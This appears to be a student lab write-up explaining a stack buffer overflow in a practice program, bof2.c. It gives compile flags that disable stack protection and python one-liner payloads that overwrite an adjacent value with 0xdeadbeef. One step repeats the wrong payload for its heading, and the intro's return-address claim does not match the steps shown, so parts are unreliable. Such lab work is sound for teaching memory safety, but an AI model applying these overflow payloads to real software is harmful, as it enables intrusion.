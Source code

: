 # Understand bof2.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## Stackframe

## Vulnerability
In the program, we see fgets(buf, 45, stdin), but buf only has 40 bytes, which leads to a buffer overflow.
# Start attacking bof2.c 
## Compiling the file without stack restriction
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`  
## Start inputing files with 0x4030201
`echo $(python -c "print('a'*40+'\x01\x02\x03\x04')") | ./bof2.out 123`  
We see that there is no message because the if clause is not touched!
## Try with other address: \xff\xff\xff\xff
`echo $(python -c "print('a'*40+'\x01\x02\x03\x04')") | ./bof2.out 123`  
Now we see a message that "You are on the right way!"
## Now we input 0xdeadbeef to see the message from the second if!
`echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out 123`
Now you see that the message is "Yeah! You win!"
